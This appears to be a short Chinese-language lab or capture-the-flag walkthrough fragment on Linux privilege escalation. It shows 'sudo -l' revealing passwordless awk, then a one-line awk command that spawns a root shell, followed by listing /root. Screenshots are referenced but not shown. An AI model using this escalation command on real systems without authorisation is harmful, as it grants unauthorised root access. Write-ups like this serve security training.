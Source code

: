 



### 执行sudo -l

```
sudo -l
```

![image-20250315050940810](assets/image-20250315050940810.png)

无密码执行awk





### awk提权

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

![image-20250315051156271](assets/image-20250315051156271.png)





### 成功提权

```
cd /root
ls
```

![image-20250315051326174](assets/image-20250315051326174.png)



